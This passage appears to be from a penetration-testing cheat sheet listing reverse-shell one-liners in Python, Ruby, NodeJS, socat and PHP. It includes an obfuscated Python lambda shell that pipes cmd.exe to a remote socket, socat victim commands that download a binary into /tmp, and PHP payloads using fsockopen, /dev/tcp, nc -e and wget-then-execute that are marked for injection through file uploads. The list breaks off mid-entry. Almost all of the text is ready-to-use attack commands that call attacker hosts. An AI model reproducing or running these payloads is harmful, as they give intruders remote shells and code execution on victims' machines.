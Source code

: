           C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"    

- **RUBY:**  

        ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  
	
- **NodeJS/Javascript:**

		var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect(80, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});  
		
- **SOCAT:**  

       Attacker:  socat file:`tty`,raw,echo=0 tcp-listen:4444  \\  socat -d -d TCP4-LISTEN:443 STDOUT
       Victim:  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  \\  socat TCP4:10.11.0.22:443 EXEC:/bin/bash
          Or:  wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.15.25:4444

- **PHP:**
    - Commandline:  `php -r '$sock=fsockopen("192.168.119.186",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
    - Simple Content Inject:  

          $sock=fsockopen("10.10.14.11", 4445);exec("/bin/sh -i <&3 >&3 2>&3");  
          exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.186/4444 0>&1'");  
          <?php $sock = fsockopen("192.168.119.186",4444); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>  
          <?php system(“wget http://192.168.119.186/phpshellFull.php -O /tmp/; chmod +x /tmp/phpshellFull.php; php /tmp/phpshellFull.php”); ?>  
          <?php passthru("nc -e /bin/sh 1.2.3.4 8080"); ?>  (inject into file upload)  
    - Advanced Content Inject:  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php      
            - For Windows:  https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php     
    - Reliable, simple PHP web shell to upload/execute code:  
